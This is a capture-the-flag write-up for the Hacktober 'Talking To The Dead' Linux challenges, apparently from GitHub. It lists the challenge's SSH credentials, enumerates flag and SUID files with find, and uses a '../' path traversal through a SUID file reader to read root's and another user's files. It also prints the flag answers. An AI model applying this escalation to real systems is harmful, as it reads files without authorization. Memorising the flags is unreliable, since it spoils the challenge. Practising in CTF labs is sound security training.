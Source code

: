 # Talking To The Dead 1-4

`ssh server = hacktober@env.hacktober.io`
`ssh password = hacktober-Underdog-Truth-Glimpse`

## Problem
```
We've obtained access to a server maintained by spookyboi. There are four flag files that we need you to read and submit (flag1.txt, flag2.txt, etc).
```

## Solution
```
we need to obtain 4 files.

flag1.txt flag2.txt flag3.txt and flag4.txt

lets get searching!

for this we can use the find command.

#find / -iname *flag* 2>/dev/null | grep .txt#
```
![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/ctfs/hacktober/linux/talking_to_the_dead_1-4/0.png)
```
here we are searching for files that have `flag` in their name and grepping the ones that are .txt files.

and we got the flags location!

we can read the first 2 flags but the others give us permission denied.

cat /home/luciafer/Documents/flag1.txt
cat /home/luciafer/Documents/.flag2.txt

flag{cb07e9d6086d50ee11c0d968f1e5c4bf1c89418c} - flag 1
flag{728ec98bfaa302b2dfc2f716d3de7869f3eadcbf} - flag 2

lets priv esc!

runing `sudo -l` gives us `bash: sudo: command not found`

I will not try to upload linpeas here.

lets search for suid.

#find / -perm -u=s -type f 2>/dev/null#
```
![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/ctfs/hacktober/linux/talking_to_the_dead_1-4/1.png)
```
we find /usr/local/bin/ouija

which looks weird.

lets try to run it.

looks like its for file reading in the root directory.
```
![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/ctfs/hacktober/linux/talking_to_the_dead_1-4/2.png)
```
lets try to read flag4 on the root directory.

we can see the that file puts `/root/` at the start for us.

so we just need to enter the file name in the root directory.
```
![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/ctfs/hacktober/linux/talking_to_the_dead_1-4/3.png)
```
#/usr/local/bin/ouija flag4.txt#
```
![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/ctfs/hacktober/linux/talking_to_the_dead_1-4/4.png)
```
and we have flag4!

flag{4781cbffd13df6622565d45e790b4aac2a4054dc} - flag 4

now to read flag3 on spookyboi Documents directory.

#/usr/local/bin/ouija ../home/spookyboi/Documents/flag3.txt#

we need to escape the default `/root/` directory so we add `../` at the start
```
![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/ctfs/hacktober/linux/talking_to_the_dead_1-4/5.png)
```
and we have flag 3!

flag{445b987b5b80e445c3147314dbfa71acd79c2b67} - flag 3
```
